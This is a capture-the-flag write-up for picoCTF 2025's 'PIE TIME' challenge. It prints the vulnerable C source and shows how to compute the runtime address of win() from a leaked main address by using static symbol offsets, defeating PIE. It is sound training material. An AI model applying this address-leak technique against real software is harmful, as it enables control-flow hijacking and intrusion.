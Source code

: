 # PIE TIME - picoCTF 2025 Writeup

**Category:** Binary Exploitation  
**Difficulty:** Easy

## Description
Can you try to get the flag? Beware we have PIE!

## Approach
We are given a binary `vuln` and the source code `vuln.c`

The binary prints the address of `main`, then prompts you to enter an address. The program passes your input to a function pointer and calls it. A `SIGSEGV` handler exits on invalid jumps.

Looking at the source code, it is clear that our goal is to make the program call `win()` which prints the flag:

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

// Goal is to call this function
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Checking the securities on the binary:

```Bash
$ checksec vuln
[*] '/home/user/PIETIME/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
As implied by the challenge name, this binary is a Position-Independent Executable (PIE). PIE relocates the program’s code segment at runtime (so absolute addresses change each run), but the relative offsets between functions (e.g., `main` and `win`) remain constant.

## Solution
The address of main is "leaked" to us on runtime, we can follow this approach:

Find the static symbol offsets (within the binary) for `main` and `win`

Use `readelf` or `objdump` to get symbol offsets
```Bash
$ readelf -s ./pietime | egrep " main| win"
    66: 00000000000012a7   150 FUNC    GLOBAL DEFAULT   16 win
    70: 000000000000133d   204 FUNC    GLOBAL DEFAULT   16 main
```
Compute the relative difference `delta = main_static - win_static`

```Python
# main_static - win_static = delta
0x133d - 0x12a7 = 0x96
```

At runtime, read the printed `main_runtime` and compute `win_runtime = main_runtime - delta`. Because `win` is at a lower static address than `main`, we will subtract this delta from the leaked `main` at runtime. 

Run the binary
```Bash
$ ./vuln
Address of main: 0x5660322e333d
Enter the address to jump to, ex => 0x12345:
```
Compute `win_runtime`
```Bash
win_runtime = 0x5660322e333d - 0x96 = 0x5660322e32a7
```

Send `win_runtime` to the program and it will call `win()` to print the flag
```Bash
You won!
picoCTF{...redacted...}
```
